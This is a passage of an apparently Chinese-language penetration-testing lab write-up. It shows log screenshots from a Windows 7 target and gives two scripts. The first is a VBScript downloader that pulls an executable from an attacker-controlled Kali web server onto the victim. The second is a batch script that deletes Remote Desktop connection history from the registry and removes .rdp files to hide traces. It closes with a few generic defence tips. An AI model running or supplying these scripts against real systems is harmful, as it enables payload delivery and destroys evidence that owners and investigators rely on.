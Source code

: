 未清除时Windows 7(192.168.114.138)中的日志

![](https://upload-images.jianshu.io/upload_images/7216746-7dbbc8e48c1b0fda.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/7216746-6e5c79b1f2457ee9.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/7216746-0196e1b5cb721c92.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

# 脚本分析
## 目标机器下载程序的vbs脚本

注: 使用`service apache2 start`将kali linux apache2服务打开，可以使之充当服务器，将需要上传的文件放在`/var/www/html`目录下

```
url = "http://192.168.114.130/SQL.exe"    '网络上的文件地址
saveas = "C:\hack\SQL.exe"                '保存成的本地文件
Set xmlhttp = CreateObject("Microsoft.XMLHTTP") '创建HTTP请求对象
Set stream = CreateObject("ADODB.Stream")       '创建ADO数据流对象
Call xmlhttp.open("GET",url,False)'打开连接
Call xmlhttp.send()'发送请求
stream.mode = 3 '设置数据流为读写模式
stream.type = 1     '设置数据流为二进制模式
Call stream.open()'打开数据流
Call stream.write(xmlhttp.responsebody)'将服务器的返回报文主体内容写入数据流
Call stream.savetofile(saveas,2)'将数据流保存为文件
'释放对象
Set xmlhttp = Nothing
Set stream = Nothing
```

## 清除3389远程桌面连接记录的批处理脚本

```
@cls ::清屏
@color 0b ::设置默认的控制台前景和背景颜色
::REM清除mstsc历史记录
echo off ::echo off执行以后，后面所有的命令均不显示，但本条命令是显示的
mstsc
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /f 
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
cd /d %USERPROFILE%
del *.rdp /a/s
```

解释:
/f: 不提示
/a: 删除隐藏文件

# 如何防御

1.不要打开任何来源不明的链接或Office文档

2.及时更新并安装微软发布的最新补丁

3.定期查看日志和管理用户界面

4.及时更新杀毒软件，并对计算机进行杀毒
